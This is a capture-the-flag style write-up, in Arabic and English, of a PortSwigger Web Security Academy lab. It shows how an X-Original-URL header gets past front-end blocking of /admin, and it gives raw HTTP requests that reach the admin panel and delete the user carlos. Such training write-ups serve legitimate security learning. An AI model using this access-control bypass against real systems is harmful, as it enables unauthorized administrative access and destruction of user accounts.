 ## 🎯  [URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)

### 📝 الوصف
يوجد لوحة تحكم المدير على مسار `/admin` ولكن تم حظر الوصول إليه من خلال نظام front-end. مع ذلك، التطبيق يدعم header خاص اسمه `X-Original-URL` يمكنه تجاوز هذا الحظر.

### 🎯 الهدف
الوصول إلى لوحة التحكم وحذف المستخدم `carlos`

---

### 🔍 الاكتشاف والتحليل

### ❌ المحاولة الأولية:
1. ذهبت مباشرة إلى `/admin` → **حظر 404**
2. جربت `/admin/` → **نفس النتيجة**

### 💡 الملاحظة المهمة:
- النظام يستخدم framework يدعم `X-Original-URL` header
- هذا الheader يستخدم لتجاوز مسار الطلب الأصلي

---

### 🛠️ خطوات الحل التفصيلية
#### Step 1: Using Burp Suite
![[photo/Screenshot From 2025-10-17 12-52-42.png]]
!
```http
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
X-Original-URL: /admin
```

<mark style="background: #BBFABBA6;">2 نروح علي Repeater  و نضيف  x-orginal-URL: /admin </mark>
![[photo/Screenshot From 2025-10-17 13-02-42.png]]
#### Step 2: Access Admin Panel
1. Send request with <mark style="background: #FF5582A6;">X-Original-URL</mark> header:
	```http 
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
X-Original-URL: /admin
```
	- Response shows admin panel interface
	- Contains option to delete users

#### Step 3: Delete Carlos User

![[photo/Screenshot From 2025-10-17 13-39-40.png]]
1. Send delete request using header bypass:
	```http
GET /?username=carlos HTTP/2

Host: 0ad700bf03a36103821bf166008900a3.web-security-academy.net
Cookie: session=mGA7P7tE0gJi6oLUNJDJs7VseOO5CLx5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad700bf03a36103821bf166008900a3.web-security-academy.net/

X-Original-Url: /admin/delete

Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
---

